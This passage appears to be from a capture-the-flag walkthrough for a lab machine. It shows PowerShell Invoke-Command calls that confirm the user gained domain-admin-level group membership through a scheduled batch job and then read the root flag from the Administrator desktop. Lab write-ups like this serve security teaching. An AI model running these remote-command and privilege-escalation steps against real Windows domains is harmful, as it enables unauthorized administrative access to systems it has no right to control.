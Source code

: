 Now we need to wait for five minutes to run that schedule job to execute our batch file. Check the whether you added to `site_admin` group or not.

Lets check:
```PowerShell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -Command {whoami /groups}
```
![[acute/images/image8.png]]
Yes! We got it.
We are domain admin now. Let’s read the final flag from administrators directory.

```PowerShell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {cat 'c:\users\administrator\desktop\root.txt'}
```
